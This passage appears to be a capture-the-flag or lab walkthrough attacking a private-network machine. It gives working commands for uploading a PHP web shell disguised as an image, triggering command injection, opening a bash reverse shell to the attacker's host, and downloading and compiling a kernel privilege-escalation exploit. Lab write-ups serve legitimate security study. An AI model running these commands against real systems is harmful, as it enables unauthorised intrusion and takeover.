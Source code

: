 ```shellscript
curl -u frank:'frank!!!' -X POST http://192.168.1.20/development/uploader/upload.php \
  -F "fileToUpload=@shell.php.png" \
  -F "submit=Upload Image"
```

The file was successfully uploaded.

<img width="681" height="430" alt="image" src="https://github.com/user-attachments/assets/425d4d5e-c9a7-4c14-bf43-db6ea625c898" />



### Reverse Shell

I then triggered the reverse shell by accessing the uploaded file with a command injection:

```shellscript
curl -u frank:'frank!!!' 'http://192.168.1.20/development/uploader/FRANKuploads/shell.php.png?cmd=echo+hi' --output output.txt
```

I set up a netcat listener on my attacking machine:

```shellscript
nc -lnvp 4444
```

I then executed a reverse shell command:

```shellscript
curl -s -X POST 'http://192.168.1.20:8011/api/files_api.php?cmd=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.6%2F4444%200%3E%261%22' \
  -d "file=/var/www/development/uploader/FRANKuploads/shell.php.png"
```

I received a reverse shell as `www-data`.

### Privilege Escalation

I used `linpeas.sh` to enumerate potential privilege escalation vectors:

```shellscript
wget http://192.168.1.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

The `linpeas.sh` script identified several potential exploits, including:

- CVE-2012-0056, CVE-2010-3849, CVE-2010-3850 (full-nelson)
- CVE-2016-5195 (dirtycow)
- CVE-2010-3904 (rds)


I downloaded and compiled the RDS exploit:

```shellscript
wget http://192.168.1.6/15285.c
gcc -o exploit 15285.c
./exploit
```
